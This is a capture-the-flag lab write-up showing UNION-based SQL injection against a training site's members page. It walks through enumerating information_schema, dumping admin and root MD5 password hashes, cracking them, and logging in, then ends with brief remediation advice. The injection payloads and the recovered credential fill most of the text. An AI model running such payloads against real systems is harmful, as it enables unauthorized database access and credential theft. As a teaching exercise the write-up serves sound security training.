 ## How we found the flag

By doing sql inject on the memebers page (/index.php?page=member), we can find the database table schema, including table schema names, table names and column names.

### Find a table containg password column

We are interested in finding tables containing user password. First, we can find out database version with `1 UNION SELECT 1, version() limit 1,1`, the DB version is `5.5.64-MariaDB-1ubuntu0.14.04.1`.

> INFORMATION_SCHEMA provides access to database metadata (mysql), see [doc](https://dev.mysql.com/doc/refman/8.3/en/information-schema-table-reference.html).

Get all the table name with their column names with `-1 UNION SELECT table_name, column_name FROM information_Schema.columns`, then search "pass" on the result page, we now know that table "db_default" has a "password" column
```
ID: -1 UNION SELECT table_name, column_name FROM information_Schema.columns 
First name: db_default
Surname : password
```
We also have the "username" column in table "db_default"
```
ID: -1 UNION SELECT table_name, column_name FROM information_Schema.columns 
First name: db_default
Surname : username
```

### Find the table schema

If we try `-1 UNION SELECT username, password from db_default`, we get this output:
```
Table 'Member_Sql_Injection.db_default' doesn't exist
```
This means "db_default" is not inside the "Member_Sql_Injection" schema.
We can get its schema name with `-1 UNION SELECT table_schema, table_name FROM information_Schema.tables`, search "db_default", output:
```
ID: -1 UNION SELECT table_schema, table_name FROM information_Schema.tables 
First name: Member_Brute_Force
Surname : db_default
```

### Get the column content

Then with `-1 UNION SELECT username,password FROM Member_Brute_Force.db_default`, we get:
```
ID: -1 UNION SELECT username,password FROM Member_Brute_Force.db_default 
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

ID: -1 UNION SELECT username,password FROM Member_Brute_Force.db_default 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```

### Decrypt and sign in

- Decrypt "3bf1114a986ba87ed28fc1b5884fc2f8" with https://www.dcode.fr/cipher-identifier, the most likely algorithm is MD5, the decrypted value is "shadow".

- Sign in to get the flag
```
username: "admin" or "root"
password: shadow
```

## How to exploit the breach
- We can now access the website with an admin account.

## What's the correct way
- Enforce input validation to prevent sql injection.
- Limit user privileges on sensitive tables.
- Use a stronger, or double encrytion method for storing password or other sensitive information.
